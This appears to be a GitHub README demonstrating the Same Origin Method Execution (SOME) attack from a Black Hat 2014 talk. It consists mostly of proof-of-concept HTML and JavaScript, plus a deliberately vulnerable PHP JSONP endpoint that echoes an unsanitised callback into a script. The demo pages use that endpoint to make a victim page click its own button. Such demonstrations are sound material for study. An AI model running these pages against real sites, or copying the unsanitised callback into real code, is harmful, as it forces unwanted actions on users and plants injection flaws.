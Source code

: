 ### About SOME

Black Hat Eorope 2014 Speech topic.https://www.youtube.com/watch?v=OvarkOxxdic

### Demo1

Secret.html

```html
<html>
    <form action="#">
        <button onclick="getscret()">
            clickkkkkkkkk meeeeeee!!!
        </button>

    </form>

    <script>
        function getscret(){
            alert(document.domain);
        }


        
    </script>


</html>
```

一个jsonp点

```php
<?php
$callback=$_GET['callback'];
echo "<script>";
echo $callback."()";
echo "</script>";
```

some1.html

```html
<script>
    function attack1() {
        window.open("some2.html");
        location.replace("http://b.com/secret.html");
    }

    setTimeout(attack1(), 1000);
</script>
```

some2.html

```javascript
<script>
    function attack() {
        location.replace("http://b.com/jsonp.php?callback=window.opener.document.body.firstElementChild.firstElementChild.click");
    }

    setTimeout(attack, 2000);

</script>
```

#### 效果

打开some1.html->弹窗->当前用户对secret.html页面进行点击敏感点击操作

### Demo2

```html
<iframe src="http://b.com/secret.html" name=b></iframe>
<iframe name=a></iframe>

<script>
window.frames[0].open('http://www.test.com','a');
setTimeout(
  function(){
    window.frames[1].location.href = 'http://b.com/jsonp.php?callback=window.opener.document.body.firstElementChild.firstElementChild.click()'
  }
,1000);
</script>
```

